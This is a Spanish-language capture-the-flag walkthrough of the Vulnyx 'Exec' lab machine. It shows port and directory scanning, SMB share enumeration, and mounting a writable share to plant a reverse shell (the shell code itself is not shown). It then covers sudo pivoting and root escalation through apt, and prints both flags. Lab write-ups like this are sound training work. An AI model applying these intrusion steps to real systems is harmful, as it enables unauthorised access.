



# Máquina **Exec** - Vulnyx

Comenzamos la máquina comprobando puertos abiertos de la misma

<code>$sudo nmap -sV -p- 10.0.2.7</code>

Y obtenemos el siguiente resultado

<pre>Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-07 22:08 BST
Nmap scan report for 10.0.2.7
Host is up (0.000067s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.57 ((Debian))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:96:D7:D5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds</pre>

Podemos comprobar que tenemos diferentes servicios abiertos.

Como tenemos un servidor apache vamos a tratar de ingresar a traves de nuestro navegador:

Hacemos búsqueda de directorios:

<code>$dirb http://10.0.2.7</code>

<pre>-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue May  7 22:19:23 2024
URL_BASE: http://10.0.2.7/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.7/ ----
+ http://10.0.2.7/index.html (CODE:200|SIZE:10701)                             
+ http://10.0.2.7/server-status (CODE:403|SIZE:273)                            
                                                                               
-----------------
END_TIME: Tue May  7 22:19:24 2024
DOWNLOADED: 4612 - FOUND: 2
</pre>

Vemos que existe un directorio *server-status* pero en este caso no nos ha hecho falta usarlo.
***
Sabemos que existe un servidor SMB, por lo que vamos a enumerar los servicios compartidos con Metasploit con <code>auxiliary(scanner/smb/smb_enumshares)</code> y obtenemos el siguiente resultado:

<pre>
[*] 10.0.2.7:139          - Starting module
[-] 10.0.2.7:139          - Login Failed: Unable to negotiate SMB1 with the remote host: Expecting SMB1 protocol with command=114, got SMB1 protocol with command=114, Status: (0x00000000) STATUS_SUCCESS: The operation completed successfully.
[*] 10.0.2.7:445          - Starting module
[!] 10.0.2.7:445          - peer_native_os is only available with SMB1 (current version: SMB3)
[!] 10.0.2.7:445          - peer_native_lm is only available with SMB1 (current version: SMB3)
[+] 10.0.2.7:445          - print$ - (DISK) Printer Drivers
[+] 10.0.2.7:445          - server - (DISK) Developer Directory
[+] 10.0.2.7:445          - IPC$ - (IPC|SPECIAL) IPC Service (Samba 4.17.12-Debian)
[+] 10.0.2.7:445          - nobody - (DISK) Home Directories
[*] 10.0.2.7:             - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
</pre>

Y con <code>auxiliary(scanner/smb/smb_lookupsid)</code> conseguimos un usuario.

<pre>
[*] 10.0.2.7:139          - PIPE(LSARPC) LOCAL(EXEC - 5-21-1053484093-4117888201-2282325410) DOMAIN(WORKGROUP - )
[*] 10.0.2.7:139          - USER=nobody RID=501
[*] 10.0.2.7:139          - GROUP=None RID=513

</pre>

Vamos a tratar de montar en nuestra máquina alguna de los directorios compartidos. Para ello vamos a montar el directorio en <code>/server</code> en <code>/mnt/samba</code>

<code>sudo mount -vvv -v -t cifs //10.0.2.7/server /mnt/samba -o username=nobody,password=nobody,rw,file_mode=0777,dir_mode=0777</code>

Y obtenemos el contenido del directorio:

<pre>
$cd /mnt/samba
┌─[parrot@parrot]─[/mnt/samba]
└──╼ $ls
index.html
</pre>

>Tras probar con varios directorios compartidos, conseguimos montar con el usuario *nobody* y pass *nobody*

Ya tenemos acceso al index.html donde apunta el servidor apache. Por lo que vamos a modificar el nombre del archivo a <code>index.php</code> e introduciremos en el documento una *reverse shell* para obtener acceso a la consola.

Así quedaría el documento html:

Y al refrescar la web obtenemos la shell:

<pre>
┌─[parrot@parrot]─[~]
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
10.0.2.7: inverse host lookup failed: Unknown host
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.7] 60632
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

Obtenemos una TTY interactiva co Python:
<pre>
<code>python3 -c 'import pty; pty.spawn("/bin/bash")'</code>
> www-data@exec:/var/www/html$ 
</pre>

Con <code>sudo -l</code> podemos ver que a traves del usuario s3cur4 podemos usar /bin/bash

Procedemos con <code>sudo -u s3cur4 /usr/bin/bash</code> y:

<pre>
www-data@exec:/home$ sudo -u s3cur4 /usr/bin/bash
sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/home$ id
id
uid=1000(s3cur4) gid=1000(s3cur4) groups=1000(s3cur4)
s3cur4@exec:/home$ 
</pre>

Tenemos el control del usuario y la flag en <code>/home/s3cur4 > user.txt</code>:

**45e398cc820ab08df0e3a414eac58fef**

Para escalar privilegios, haremos uso de GTFObins https://gtfobins.github.io/gtfobins/apt/ 

<pre>
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls    
ls
root.txt
# cat root.txt
cat root.txt
</pre>

Obtenemos la flag de root:

**97d8adddb3a3aa8b63e28c2396c5e53f**

Y esto es todo ^^ 

#BlueEsAzul \
#RedEsRojo